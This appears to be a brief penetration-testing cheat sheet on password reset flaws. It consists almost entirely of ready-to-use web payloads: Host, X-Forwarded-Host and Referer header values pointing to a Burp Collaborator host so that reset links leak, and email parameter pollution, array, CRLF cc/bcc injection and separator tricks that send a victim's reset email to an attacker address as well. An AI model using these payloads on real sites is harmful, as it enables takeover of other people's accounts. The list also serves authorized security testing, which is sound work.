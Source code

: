 # Password Reset Vulnerability



#### Tips 1

```
Host: burpcollaboratorurl.com:login.redacted.com
```

Tips 2

```
X-forwarded-host: burpcollaboratorurl.com
Or
Host: burpcollaboratorurl.com
Or 
Referer: burpcollaboratorurl.com
```

Add another emails

```
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
